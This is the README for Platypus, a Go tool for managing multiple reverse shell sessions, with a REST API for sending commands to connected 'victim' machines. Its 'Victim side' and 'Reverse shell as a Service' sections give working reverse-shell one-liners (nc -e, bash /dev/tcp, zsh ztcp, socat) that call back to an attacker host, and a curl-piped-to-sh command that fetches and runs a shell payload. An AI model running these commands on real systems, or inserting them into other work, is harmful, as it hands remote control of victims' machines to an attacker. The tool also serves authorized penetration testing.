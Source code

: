 # Platypus

[![GitHub stars](https://img.shields.io/github/stars/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus/stargazers)
[![GitHub license](https://img.shields.io/github/license/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus)

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features

- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service

#### Screenshot

![](https://upload-images.jianshu.io/upload_images/2355077-9ef699f1de815f9e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/2355077-bd729ecfe7d2dcc0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### Network Topology

```bash
Attack IP: 192.168.1.2
    Reverse Shell Service: 0.0.0.0:8080
    RESTful Service: 127.0.0.1:9090
Victim IP: 192.168.1.3
```

#### Run Platypus from source code

```bash
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Run Platypus from release binaries

```bash
// Download binary from https://github.com/WangYihang/Platypus/releases
chmod +x ./Platypus_linux_amd64
./Platypus_linux_amd64
```

#### Victim side

```bash
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```

#### Reverse shell as a Service

```bash
// Platypus is able to multiplexing the reverse shell listening port
// The port 8080 can receive reverse shell client connection
// Also these is a Reverse shell as a service running on this port

// victim will be redirected to attacker-host attacker-port
// sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# curl http://192.168.1.2:8080/attacker.com/1337
bash -c 'bash -i >/dev/tcp/attacker.com/1337 0>&1'
# sh -c "$(curl http://192.168.1.2:8080/attacker.com/1337)"

// if the attacker info not specified, it will use host, port as attacker-host attacker-port
// sh -c "$(curl http://host:port/)"
# curl http://192.168.1.2:8080/
curl http://192.168.1.2:8080/192.168.1.2/8080|sh
# sh -c "$(curl http://host:port/)"
```

#### RESTful API

* `GET /client` List all online clients

```bash
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* `POST /client/:hash` execute a command on a specific client

```bash
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* How to hash?

```bash
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```

#### TODO

- [ ] Send a specific command to all clients
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
- [ ] Use crontab
- [ ] Use HR package to detect the status of client (maybe `echo $random_string`)
- [ ] Upgrade common reverse shell session into full interactive session
- [ ] Provide full kernel API
- [ ] Upload file
- [ ] Download file
- [ ] List file
- [ ] Web UI
- [ ] Global Config (eg. BlockSameIP)
- [ ] User guide
- [ ] Benchmark
- [ ] Upgrade to Metepreter session

